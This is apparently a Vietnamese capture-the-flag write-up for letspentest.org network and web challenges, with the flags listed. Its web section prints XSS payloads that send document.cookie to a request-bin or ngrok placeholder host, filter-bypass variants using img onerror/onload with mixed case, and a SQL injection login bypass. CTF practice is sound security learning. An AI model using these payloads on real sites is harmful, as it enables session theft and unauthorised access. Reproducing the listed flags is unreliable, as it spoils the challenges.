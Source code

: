 Flag: Flag{t00-ez-4-y0u}

### Where is my house?
Bài gợi ý dùng DNS, mình dùng lệnh `dig TXT  letspentest.org ` để query tất cả TXT records của domain này.

![image](https://user-images.githubusercontent.com/50044415/139645294-8414bc25-03b6-4168-a4b8-cdc67de5d6f1.png)

Flag: Flag{DNS_A_AAAA_TXT_CNAME}

### Scan me if you can 
Dùng nmap quét từ port 8100 - 9100

![image](https://user-images.githubusercontent.com/50044415/139645457-3d63d04a-087b-4e58-85f1-9fd380fd4e21.png)

Có port 9003 và 9004 mở, ta thử nc với port 9004 thì có flag
![image](https://user-images.githubusercontent.com/50044415/139645537-b828253d-18e0-462e-afc9-4f2f7f728608.png)

Flag: Flag{Every-Header-Have-It-Own-Meaning}

### Secure HTTP
Đề bài gợi ý sử dụng HTTPS ở port 9004, vào browser ta truy cập: https://network-insecure.letspentest.org:9004

Xem certificate của trang 
![image](https://user-images.githubusercontent.com/50044415/139645862-05e3d6a0-9728-4fd5-9c04-13cd29c046cf.png)

Flag: Flag{This-Is-A-Trusted-One}

## Web Exploitation
### XSS
Bài này bot có vấn đề nên mình mất khá nhiều thời gian tuy dễ. Payload: `<script>fetch(<request bin url hoặc ngrok url> + '?c=' + document.cookie)</script>`

Flag: FLAG{10c802c9c6afc26769764b5b986d708a}

### XSS Filter
Có vẻ như bài này bị filter script nên mình dùng các payload sau: (vì bot có vấn đề nên mình không chắc payload nào hoạt động)
```
<img src=1 onerror=fetch(<request bin url hoặc ngrok url> + '?c=' + document.cookie)>
<img src=1 OnErrOr=fetch(<request bin url hoặc ngrok url> + '?c=' + document.cookie)>
<img src=1 onload=fetch(<request bin url hoặc ngrok url> + '?c=' + document.cookie)>
<img src=1 OnLOaD=fetch(<request bin url hoặc ngrok url> + '?c=' + document.cookie)>
```

Flag: FLAG{5b7eca261028a4042fde4e3f45dec294} xss filter

###  Ét Quy Eo 
SQL injection cơ bản
`username: 1' or true -- -`
`password: 1' or true -- -`
